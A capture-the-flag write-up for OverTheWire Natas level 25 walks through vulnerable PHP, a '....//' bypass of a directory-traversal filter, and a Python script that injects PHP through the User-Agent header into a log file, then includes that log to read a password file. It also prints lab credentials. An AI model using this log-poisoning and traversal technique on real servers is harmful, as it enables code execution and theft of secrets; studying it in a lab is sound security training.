

# Writeup level 25
We are greeted by a page where we can select the language of a text. When we change the language we can see that the URL is getting changed or rather said we can see that there is a GET-Parameter named **lang**. From the source code we can see that files are getting loaded inside the page and the path to the file is controlled by the GET-Parameter lang. Sadly it has some restrictions which we have to try to bypass now.

**Source Code**  
```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```


**Bypass (Directory Traversal Check)**  

```php
if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
}
```
So what it does it removes the **../** in a String. We can simply create a String that will work for instance: **....//** after the remove it will be **../**.

Lets test it by opening the log file.  
....//logs/natas25_jcp9pmeep2qhf89ggu0klpm9f6.log

 

It Works!

**Bypass filename Check**  
```php
if(strstr($filename,"natas_webpass")){
            echo "Illegal file access detected! Aborting!";
            //logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```

We can't bypass that check but we can still get the contet of the file.

**Final Exploit**  
Since we can open the logfile and see that it prints our User-Agent inside the html. We could try to edit the User-Agent into something malicious. For instance php-code.

```python
import requests

url = "http://natas25.natas.labs.overthewire.org/?lang="

s = requests.Session()
# initial request to get a session
r = s.get(url, auth=("natas25", "GHF6X7YwACaYYssHVY05cFq83hRktl4c"))
session_id = r.cookies['PHPSESSID']
directory_traversal = f"....//logs/natas25_{session_id}.log"

new_url = url + directory_traversal
php_code_injection = "<?php var_dump(file_get_contents('/etc/natas_webpass/natas26')); ?>"

headers = {
	'User-Agent': php_code_injection
}

r2 = s.get(new_url, auth=("natas25", "GHF6X7YwACaYYssHVY05cFq83hRktl4c"), headers=headers)

print(r2.text)
```

The password is:  
oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

